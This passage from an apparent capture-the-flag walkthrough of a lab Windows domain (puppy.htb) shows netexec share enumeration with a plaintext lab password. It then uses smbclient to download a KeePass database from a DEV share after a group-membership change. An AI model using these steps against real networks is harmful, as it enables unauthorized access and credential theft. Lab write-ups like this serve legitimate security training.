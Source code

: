### 🔓 Exploring the DEV Share

<p class="indent-paragraph">
With Levi’s distinguished name successfully injected into the <code>DEVELOPERS</code> group, all that remained was to verify whether the new privileges had taken effect. Using <code>netexec</code><span class="codefix">,</span> we confirmed that Levi now had <code>READ</code> access to the <code>DEV</code> share. The silent LDAP modification had done its job: Levi wasn’t just listed in the directory anymore; he had joined the developers' workspace.
</p>

```
~$ nxc smb dc.puppy.htb -u levi.james -p 'KingofAkron2025!' --shares 

SMB         dc.puppy.htb     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         dc.puppy.htb     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         dc.puppy.htb     445    DC               [*] Enumerated shares
SMB         dc.puppy.htb     445    DC               Share           Permissions     Remark
SMB         dc.puppy.htb     445    DC               -----           -----------     ------
SMB         dc.puppy.htb     445    DC               ADMIN$                          Remote Admin
SMB         dc.puppy.htb     445    DC               C$                              Default share
SMB         dc.puppy.htb     445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         dc.puppy.htb     445    DC               IPC$            READ            Remote IPC
SMB         dc.puppy.htb     445    DC               NETLOGON        READ            Logon server share 
SMB         dc.puppy.htb     445    DC               SYSVOL          READ            Logon server share
```

<p class="indent-paragraph">
Now that <span class="blue">levi.james</span> is part of the <code>DEVELOPERS</code> group, it’s time to validate access. Connecting to the <code>DEV</code> share via <code>smbclient</code> confirms that permissions have been updated. Within the directory, several notable files emerge, including a KeePass installer and a suspiciously named <code>recovery.kdbx</code> database.
</p>

```
~$ smbclient //dc.puppy.htb/DEV -U=levi.james%'KingofAkron2025!' -W PUPPY.HTB

Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Wed May 28 00:05:29 2025
  ..                                  D        0  Sat Mar  8 16:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 07:09:12 2025
  Projects                            D        0  Sat Mar  8 16:53:36 2025
  recovery.kdbx                       A     2677  Wed Mar 12 02:25:46 2025

		5080575 blocks of size 4096. 1626432 blocks available
smb: \> get recovery.kdbx 
getting file \recovery.kdbx of size 2677 as recovery.kdbx (4.6 KiloBytes/sec) (average 4.6 KiloBytes/sec)
```
